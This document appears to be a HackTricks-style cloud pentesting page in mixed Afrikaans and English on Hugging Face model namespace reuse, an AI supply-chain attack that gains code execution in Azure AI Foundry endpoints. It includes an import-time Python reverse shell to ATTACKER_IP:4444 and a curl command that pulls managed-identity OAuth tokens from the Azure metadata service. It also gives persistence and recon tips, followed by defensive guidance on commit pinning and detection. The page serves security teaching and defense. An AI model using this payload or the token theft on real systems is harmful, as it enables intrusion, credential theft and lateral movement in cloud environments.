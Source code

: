 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Azure AI Foundry Model Catalog sluit baie Hugging Face (HF) modelle in vir een-klik ontplooiing.
- HF model identifiers are Author/ModelName. As 'n HF author/org verwyder word, kan enigiemand daardie author herregistreer en 'n model publiseer met dieselfde ModelName by die legacy path.
- Pipelines en catalogs wat slegs op naam trek (no commit pinning/integrity) sal oplos na attacker-controlled repos. Wanneer Azure die model ontplooi, kan loader code in die endpoint environment uitgevoer word, wat RCE gee met daardie endpoint se permissions.

Common HF takeover cases:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Identifying Reusable Namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## End-tot-end aanvalsvloei teen Azure AI Foundry

1) In die Model Catalog, vind HF-modelle wie se oorspronklike outeurs op HF verwyder of oorgedra is (ou outeur verwyder).
2) Herregistreer die verlate outeur op HF en skep die ModelName weer.
3) Publiseer 'n kwaadwillige repo met 'n loader-code wat by import uitgevoer word of trust_remote_code=True vereis.
4) Deploy die ou Author/ModelName vanaf Azure AI Foundry. Die platform trek die aanvaller se repo; die loader word binne die Azure endpoint container/VM uitgevoer, wat RCE met endpoint permissies lewer.

Voorbeeld payload-fragment wat by import uitgevoer word (slegs vir demonstrasie):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Aantekeninge
- AI Foundry deployments wat HF integreer kloon gewoonlik en importeer repo modules wat in die model se config verwys (bv. auto_map), wat code execution kan veroorsaak. Sommige paaie vereis trust_remote_code=True.
- Toegang stem gewoonlik ooreen met die endpoint se managed identity/service principal permissions. Beskou dit as 'n initial access foothold vir data access en lateral movement binne Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumereer omgewingsveranderlikes en MSI endpoints vir tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Kontroleer mounted storage, model artifacts, en bereikbare Azure-dienste met die verkrygde token.
- Oorweeg persistence deur poisoned model artifacts agter te laat as die platform weer vanaf HF re-pulls.

## Verdedigingsriglyne vir gebruikers van Azure AI Foundry

- Pin models by commit wanneer vanaf HF gelaai word:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Spieël geverifieerde HF-modelle na 'n betroubare interne register en implementeer daarvandaan.
- Skandeer deurlopend kodebasisse en defaults/docstrings/notebooks vir hard-coded Author/ModelName wat verwyder of oorgedra is; werk dit by of pin dit.
- Valideer die bestaan van die auteur en die herkoms van die model voor implementering.

## Herkenningsheuristieke (HTTP)

- Verwyderde auteur: auteurbladsy 404; legacy modelpad 404 totdat dit oorgeneem word.
- Oorgedra model: legacy-pad 307 na nuwe auteur terwyl die ou auteur bestaan; as die ou auteur later verwyder en weer geregistreer word, bedien die legacy-pad inhoud van 'n aanvaller.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Kruisverwysings

- Sien breër metodologie- en voorsieningskettingaantekeninge:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Verwysings

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
